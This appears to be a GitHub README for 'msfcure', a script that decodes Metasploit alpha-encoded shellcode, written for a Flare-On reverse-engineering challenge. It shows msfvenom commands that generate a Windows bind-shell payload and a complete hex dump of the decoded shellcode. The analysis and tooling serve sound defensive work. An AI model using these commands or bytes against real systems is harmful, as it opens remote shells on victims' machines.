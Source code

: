# msfcure
Script for extracting MSFVenom alpha encoded shellcode


In the 2020 Flare-On challenge 7, there was a particularly interesting PCAP challenge that had alpha encoded shellcode that I needed to reverse engineer. As a result, I creatd this msfcure script to help me unpack the shellcode to understand it better.

The following reference https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/ explains how shellcode can be encoded using the following sample commands:
```
msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed
msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX
```

I tested the tool as follows:
1. Create sample shellcode using msfvenom and compute the MD5
```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp | md5sum
No encoder specified, outputting raw payload
Payload size: 309 bytes

9d1afa317810b4696498a67b46df37c2  -
```
The MD5 `9d1afa317810b4696498a67b46df37c2` is a reference md5sum for the unencoded shellcode.

2. Confirm that the Alphanumeric encoder generates "random" shellcode each time. I tested it by running this command a few times:

```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

b4bce591c0eea015776664eec6753963  -
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

86a1225b8638d350d9b881b0e6937bc9  -
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX | md5sum
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes

91bca0838334944f57df12c45af2d0fe  -
```
3. I wrote the file out to disk:

```
$ msfvenom -a x86 --platform windows -p windows/shell/bind_tcp -e x86/alpha_mixed BufferRegister=ECX > win_shell_bindtcp_alpha_mixed
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/alpha_mixed
x86/alpha_mixed succeeded with size 671 (iteration=0)
x86/alpha_mixed chosen with final size 671
Payload size: 671 bytes
```

4. I used the msfcure tool to decode the payload:
```
$ python3 msfcure.py --dump win_shell_bindtcp_alpha_mixed 
win_shell_bindtcp_alpha_mixed: Detected 'rex/encoder/alpha2/alpha_mixed'
00000000: FC E8 82 00 00 00 60 89  E5 31 C0 64 8B 50 30 8B  ......`..1.d.P0.
00000010: 52 0C 8B 52 14 8B 72 28  0F B7 4A 26 31 FF AC 3C  R..R..r(..J&1..<
00000020: 61 7C 02 2C 20 C1 CF 0D  01 C7 E2 F2 52 57 8B 52  a|., .......RW.R
00000030: 10 8B 4A 3C 8B 4C 11 78  E3 48 01 D1 51 8B 59 20  ..J<.L.x.H..Q.Y 
00000040: 01 D3 8B 49 18 E3 3A 49  8B 34 8B 01 D6 31 FF AC  ...I..:I.4...1..
00000050: C1 CF 0D 01 C7 38 E0 75  F6 03 7D F8 3B 7D 24 75  .....8.u..}.;}$u
00000060: E4 58 8B 58 24 01 D3 66  8B 0C 4B 8B 58 1C 01 D3  .X.X$..f..K.X...
00000070: 8B 04 8B 01 D0 89 44 24  24 5B 5B 61 59 5A 51 FF  ......D$$[[aYZQ.
00000080: E0 5F 5F 5A 8B 12 EB 8D  5D 68 33 32 00 00 68 77  .__Z....]h32..hw
00000090: 73 32 5F 54 68 4C 77 26  07 FF D5 B8 90 01 00 00  s2_ThLw&........
000000A0: 29 C4 54 50 68 29 80 6B  00 FF D5 6A 0B 59 50 E2  ).TPh).k...j.YP.
000000B0: FD 6A 01 6A 02 68 EA 0F  DF E0 FF D5 97 68 02 00  .j.j.h.......h..
000000C0: 11 5C 89 E6 6A 10 56 57  68 C2 DB 37 67 FF D5 85  .\..j.VWh..7g...
000000D0: C0 75 58 57 68 B7 E9 38  FF FF D5 57 68 74 EC 3B  .uXWh..8...Wht.;
000000E0: E1 FF D5 57 97 68 75 6E  4D 61 FF D5 6A 00 6A 04  ...W.hunMa..j.j.
000000F0: 56 57 68 02 D9 C8 5F FF  D5 83 F8 00 7E 2D 8B 36  VWh..._.....~-.6
00000100: 6A 40 68 00 10 00 00 56  6A 00 68 58 A4 53 E5 FF  j@h....Vj.hX.S..
00000110: D5 93 53 6A 00 56 53 57  68 02 D9 C8 5F FF D5 83  ..Sj.VSWh..._...
00000120: F8 00 7E 07 01 C3 29 C6  75 E9 C3 BB F0 B5 A2 56  ..~...).u......V
00000130: 6A 00 53 FF D5                                    j.S..
Writing decoded shellcode to win_shell_bindtcp_alpha_mixed.msfcure
```

5. I confirmed that the MD5 of the dumped shellcode matches the reference shellcode:
```
$ md5sum win_shell_bindtcp_alpha_mixed.msfcure 
9d1afa317810b4696498a67b46df37c2  win_shell_bindtcp_alpha_mixed.msfcure
```
